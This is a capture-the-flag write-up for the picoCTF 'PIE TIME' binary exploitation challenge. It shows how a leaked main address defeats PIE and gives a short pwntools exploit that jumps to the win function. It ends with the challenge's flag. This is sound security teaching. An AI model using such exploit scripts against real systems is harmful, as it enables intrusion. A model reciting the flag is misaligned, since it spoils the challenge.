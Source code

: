 # [PIE TIME](https://play.picoctf.org/practice/challenge/490)  

## Challenge Information  
- **Category**: Binary Exploitation  
- **Difficulty**: Easy  
- **Description**: Can you try to get the flag? Beware we have PIE!  

## Solution Overview  
This challenge involves exploiting a binary with **Position Independent Executable (PIE)** enabled. PIE randomizes the base address of the binary in memory, making it harder to predict function addresses. Our goal is to bypass this protection and retrieve the flag.  

## Hints  
- Can you figure out what changed between the address you found locally and in the server output?  

## Detailed Walkthrough  

### Step 1: Disassembling the Binary  
#### Inspecting the Binary  
1. **Download the challenge binary and run basic analysis:**  
   ```bash
   lim@gettokari:~$ file vuln
   vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
   ```

   ```bash
   lim@gettokari:~$ checksec --file=vuln
   RELRO        STACK CANARY   NX          PIE          RPATH     RUNPATH      Symbols       FORTIFY Fortified    Fortifiable  FILE
   Full RELRO   Canary found   NX enabled  PIE enabled  No RPATH  No RUNPATH   78 Symbols      No    0            1            vuln
   ```
   - The `checksec` output confirms that **PIE is enabled**.  
   - This means function addresses will change across executions.  

2. **Find key functions in the binary:**  
    ```bash
    lim@gettokari:~$ objdump -d vuln | grep "<main>"
        11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi   # 133d <main>
    000000000000133d <main>:
        1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi   # 133d <main>
    ```
    ```bash
    lim@gettokari:~$ objdump -d vuln | grep "<win>"
    00000000000012a7 <win>:
    ```
    - The `win` function is at offset `0x12a7`.
    - The `main` function is at offset `0x133d`.

### Step 2: Leak a PIE Address  
- Identify an info leak that reveals an address from the binary.
    ```bash
    lim@gettokari:~/ctf$ nc rescued-float.picoctf.net 55759
    Address of main: 0x5c2b8ce0333d
    Enter the address to jump to, ex => 0x12345: 
    ```
- The challenge provides the address of `main`.

### Step 3: Calculate the Win Function Address  
- Since PIE shifts addresses by a random base, compute the `win` address using:  
   ```python
   win_address = main - 0x133d + 0x12a7
   ```
- This formula uses the leaked `main` address to calculate `win`'s actual address at runtime.

### Step 4: Build and Execute the Exploit  
```python
from pwn import *
t = remote('rescued-float.picoctf.net', 55759)
t.recvuntil(b"Address of main: ")  
main = int(t.recvline().strip(), 16)
t.sendlineafter(b": ", hex(main - 0x133d + 0x12a7).encode())
print(t.recvall().decode())
```

### Key Insights  
- **PIE randomization** requires an info leak to bypass.
- **Address calculation** allows targeting the `win` function.
- **Using pwntools** simplifies remote exploit execution.

## Tools and Resources Used  
- `checksec` (to check binary protections)  
- `objdump` (for disassembling binaries)
- `pwntools` (for exploit development)  

## Flag  
```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}
```

## Learning Points  
- How **PIE** works and how to bypass it  
- Finding **info leaks** to compute binary base addresses  
- Writing exploits for **PIE-enabled binaries**  

## References  
- [Understanding PIE in Binaries](https://ir0nstone.gitbook.io/notes/binexp/stack/pie)